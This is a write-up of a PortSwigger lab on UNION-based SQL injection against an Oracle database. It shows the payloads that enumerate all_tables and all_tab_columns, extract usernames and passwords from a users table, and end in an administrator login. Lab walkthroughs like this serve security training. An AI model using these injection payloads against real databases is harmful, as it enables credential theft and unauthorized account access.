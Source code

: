 # Lab Description: 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c21d548c-1460-4e76-acd2-c01d504463a1)

 ## Solution:

### Finding Users Table

The database in use here is Oracle, which holds the table information in the all_tables-table.
I am interested in table_name. So I injected the query as payload ` UNION SELECT table_name, null from all_tables-- `. 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e669b62f-d736-4831-be57-fa9c9af6830b)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/4b94579e-126f-4d34-8538-7093adf8510d)

### Finding Column in User Table 

The all_tab_columns-table holds information about the columns of each table, specifically the column_name column in Oracle Database. 
The proper string to inject is ` UNION SELECT column_name, null from all_tab_columns WHERE table_name = 'USERS_RQGNUR'-- `

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/039b3319-0fa7-4731-84be-98534253bdd5)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/776cb9ab-3388-46f9-ad4d-6d90a397dd80)

### Finding all Username and Password from that column

Now I have all details to obtain the required usernames and passwords. I inject  ` UNION SELECT USERNAME_DEDQSJ,PASSWORD_NXDWXA from USERS_RQGNUR-- ` to form this query:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/406b33d3-94e7-4641-98bb-33add176fb66)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/5554953b-1b8f-4392-b5b6-15480f39c1dd)

The last step I logged in the website as administrator

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e6f97068-6a1a-4a10-b74e-6beb2240201e)
